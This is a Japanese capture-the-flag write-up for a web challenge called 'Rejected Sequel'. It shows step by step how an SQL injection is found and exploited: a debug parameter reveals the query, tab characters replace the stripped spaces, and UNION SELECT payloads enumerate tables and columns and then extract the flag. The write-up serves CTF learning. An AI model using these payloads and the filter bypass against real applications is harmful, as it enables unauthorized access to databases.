

# Rejected Sequel

150pt (164 Solves)

```txt
Look at all these movie sequels that never got released! Will yours make it through??
```

## 概要



入力欄に入れた文字で検索できる。

`"`を入力すると以下のようなエラーメッセージがでる。SQLiだろう。

```txt
Warning:  mysqli_fetch_array() expects parameter 1 to be mysqli_result, boolean given in /app/index.php on line 68
```

ソースコードに以下のように書いてある。  

```html
<!-- if ( isset($_GET["debug"])){ echo($sql_query); } -->
```

`/?debug`にアクセスした状態で検索するとsqlのクエリを表示してくれるようだ。

## 解

`hoge`で検索した時のリクエストが以下。

```txt
POST /?debug HTTP/1.1
Host: jh2i.com:50008
(snip)
name=hoge
```

`a b c`で検索したとき、`debug`で表示されるクエリは`abc`。スペースが削除されている。

**スペースの代わりにタブ(`%09`)を使用することで対策できる。**

### カラム数の特定  

SQLiするにあたって、selectしてるカラムがいくつあるのかを特定する。

```txt
name="%09union%09select%09"A"#
------------------------------------------------------
A
```

`A`が表示される。selectすべきカラム数は1個だとわかる。

### テーブルの列挙  

次はテーブルを列挙する。

```txt
name="%09union%09select%09table_name%09from%09information_schema.tables#
------------------------------------------------------
(snip)
flag
movies
```

テーブル名がいっぱい表示される。下の方に`flag`というテーブルがある。

### カラムの列挙

falgテーブルにどんなカラムがあるのか、列挙する

```txt
name="%09union%09select%09column_name%09from%09information_schema.columns%09where%09table_name="flag"#
------------------------------------------------------
flag
```

`flag`というカラムがあるのがわかる。

### flagの取得

```txt
name="%09union%09select%09flag%09from%09flag#
------------------------------------------------------
flag{at_least_this_sequel_got_published}
```
